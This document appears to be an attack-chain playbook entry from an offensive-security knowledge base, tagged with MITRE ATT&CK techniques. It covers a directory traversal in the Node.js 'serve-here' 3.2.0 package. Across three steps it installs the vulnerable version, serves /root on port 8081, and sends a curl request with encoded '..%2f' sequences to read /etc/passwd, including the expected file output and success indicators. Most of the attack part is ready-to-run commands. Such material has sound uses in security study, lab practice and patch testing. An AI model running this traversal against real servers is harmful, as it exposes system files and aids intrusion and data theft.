

---
tags:
  - path-traversal
  - directory-traversal
  - node-js
  - information-disclosure
  - file-read
type: attack_chain
tools:
  - '[[tools/npm]]'
  - '[[tools/serve-here]]'
  - '[[tools/cURL]]'
tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
verified: false
platforms:
  - Linux
  - Node.js
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Install-and-Setup-serve-here]]'
  - '[[procedures/Start-serve-here-Server]]'
  - '[[procedures/Exploit-Path-Traversal-with-cURL]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
updated_at: '2025-12-14T17:26:11.911Z'
description: >-
  Multi-stage attack exploiting a path traversal vulnerability in the Node.js
  serve-here package to access and read sensitive files outside the web root,
  such as /etc/passwd.
skill_level: intermediate
impact_level: high
id: 9cfbf6c5-77d4-4196-8042-89d1b88d0a91
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
---
# Directory Traversal in serve-here Package to Read Arbitrary System Files

Multi-stage attack chain demonstrating exploitation of a directory traversal vulnerability in the Node.js 'serve-here' package version 3.2.0, allowing attackers to read arbitrary files on the host system via crafted GET requests with encoded '../' sequences.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/npm]]
- [[tools/serve-here]]
- [[tools/cURL]]

### Target Environment

- Linux-based host (e.g., Ubuntu)
- Node.js installed
- Port 8081 available
- Local network access to the server

### Initial Access Requirements

- Local shell access to the target host
- No remote credentials needed for local exploitation demo
- Ability to install packages via npm

## Detailed Attack Procedures

### Step 1: Setup Environment
procedure: [[procedures/Install-and-Setup-serve-here]]

**Objective**: Install the vulnerable serve-here package and navigate to a test directory to prepare for server startup.

**Instructions**: Use [[commands/npm-install-serve-here]] to install the package globally or locally, then change to the /root directory for testing. This sets up the environment to serve files from a controlled location.

```bash
npm install -g serve-here@3.2.0
cd /root
```

**Expected Output**: Package installed successfully, current directory changed to /root.

**Success Indicators**:
- serve-here command available in PATH
- No errors during installation
- Directory listing shows /root contents

### Step 2: Start Vulnerable Server
procedure: [[procedures/Start-serve-here-Server]]

**Objective**: Launch the serve-here static web server from the test directory, binding to port 8081 to expose the web root.

**Instructions**: Execute [[commands/here-start-server]] from the /root directory to start serving files. This creates the vulnerable endpoint for path traversal attacks.

```bash
here -p 8081
```

**Expected Output**: Server message indicating it's serving from /root on port 8081, e.g., "Serving /root on port 8081".

**Success Indicators**:
- Server process running and listening on port 8081
- Local access to http://localhost:8081 confirms serving
- No port binding errors

### Step 3: Exploit Path Traversal
procedure: [[procedures/Exploit-Path-Traversal-with-cURL]]

**Objective**: Send a crafted GET request to traverse directories and read a sensitive system file like /etc/passwd, demonstrating information disclosure.

**Instructions**: From another terminal or host, use [[commands/curl-path-traversal]] to request the traversed path http://<server-IP>:8081/..%2f..%2fetc/passwd, where %2f encodes '/' to bypass sanitization.

```bash
curl "http://<server-IP>:8081/..%2f..%2fetc/passwd"
```

**Expected Output**: Contents of /etc/passwd, e.g., "root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n...".

**Success Indicators**:
- File contents returned in response body
- No 404 or access denied errors
- Arbitrary file read confirmed

## Attack Chain Summary

### Key Achievements

1. Successful installation and setup of the vulnerable serve-here package.
2. Launch of a static web server exposing the root directory.
3. Exploitation of path traversal to disclose sensitive system files, enabling further reconnaissance or data exfiltration.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[File and Directory Discovery]] File and Directory Discovery

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Discovery]] Discovery

---
*Last updated: 2023-10-01T00:00:00Z*
